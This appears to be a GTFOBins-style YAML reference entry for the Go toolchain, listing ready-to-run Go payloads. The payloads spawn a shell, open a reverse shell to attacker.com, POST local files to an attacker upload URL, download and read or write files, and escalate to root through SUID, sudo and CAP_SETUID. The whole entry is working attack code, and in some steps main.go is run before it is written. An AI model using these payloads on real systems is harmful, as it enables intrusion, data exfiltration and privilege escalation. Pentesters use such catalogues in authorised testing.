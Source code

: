 ```yaml
---
description: The payloads are compatible with Go (requires `go` compiler).
functions:
  shell:
    - code: |
        cat > main.go << 'EOF'
        package main

        import (
            "os"
            "os/exec"
        )

        func main() {
            cmd := exec.Command("/bin/sh")
            cmd.Stdin = os.Stdin
            cmd.Stdout = os.Stdout
            cmd.Stderr = os.Stderr
            cmd.Run()
        }
        EOF
        go run main.go

  reverse-shell:
    - description: Run ``nc -lvnp 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        cat > main.go << 'EOF'
        package main

        import (
            "net"
            "os"
            "os/exec"
        )

        func main() {
            c, _ := net.Dial("tcp", os.Getenv("RHOST")+":"+os.Getenv("RPORT"))
            cmd := exec.Command("/bin/sh")
            cmd.Stdin, cmd.Stdout, cmd.Stderr = c, c, c
            cmd.Run()
        }
        EOF
        go run main.go

  file-upload:
    - description: Send local file via HTTP POST request.
      code: |
        export URL=http://attacker.com/upload
        export LFILE=file_to_send
        cat > main.go << 'EOF'
        package main

        import (
            "bytes"
            "net/http"
            "os"
        )

        func main() {
            data, _ := os.ReadFile(os.Getenv("LFILE"))
            http.Post(os.Getenv("URL"), "application/octet-stream", bytes.NewReader(data))
        }
        EOF
        go run main.go

  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        cat > main.go << 'EOF'
        package main

        import (
            "io"
            "net/http"
            "os"
        )

        func main() {
            r, _ := http.Get(os.Getenv("URL"))
            defer r.Body.Close()
            f, _ := os.Create(os.Getenv("LFILE"))
            defer f.Close()
            io.Copy(f, r.Body)
        }
        EOF
        go run main.go

  file-write:
    - code: |
        cat > main.go << 'EOF'
        package main

        import "os"

        func main() {
            os.WriteFile("file_to_write", []byte("DATA"), 0644)
        }
        EOF
        go run main.go

  file-read:
    - code: |
        export LFILE=file_to_read
        cat > main.go << 'EOF'
        package main

        import (
            "fmt"
            "os"
        )

        func main() {
            data, _ := os.ReadFile(os.Getenv("LFILE"))
            fmt.Print(string(data))
        }
        EOF
        go run main.go

  suid:
    - code: |
        ./go run main.go
        # with the `main.go` containing:
        # os/exec to spawn sh with -p
        cat > main.go << 'EOF'
        package main

        import (
            "os"
            "os/exec"
        )

        func main() {
            cmd := exec.Command("/bin/sh", "-p")
            cmd.Stdin = os.Stdin
            cmd.Stdout = os.Stdout
            cmd.Stderr = os.Stderr
            cmd.Run()
        }
        EOF
        ./go run main.go

  sudo:
    - code: |
        sudo go run main.go
        # with main.go containing:
        cat > main.go << 'EOF'
        package main

        import (
            "os"
            "os/exec"
        )

        func main() {
            cmd := exec.Command("/bin/sh")
            cmd.Stdin, cmd.Stdout, cmd.Stderr = os.Stdin, os.Stdout, os.Stderr
            cmd.Run()
        }
        EOF
        sudo go run main.go

  capabilities:
    - code: |
        ./go run main.go
        # binary must have CAP_SETUID set
        cat > main.go << 'EOF'
        package main

        import (
            "os"
            "os/exec"
            "syscall"
        )

        func main() {
            syscall.Setuid(0)
            cmd := exec.Command("/bin/sh")
            cmd.Stdin, cmd.Stdout, cmd.Stderr = os.Stdin, os.Stdout, os.Stderr
            cmd.Run()
        }
        EOF
        ./go run main.go
---
```

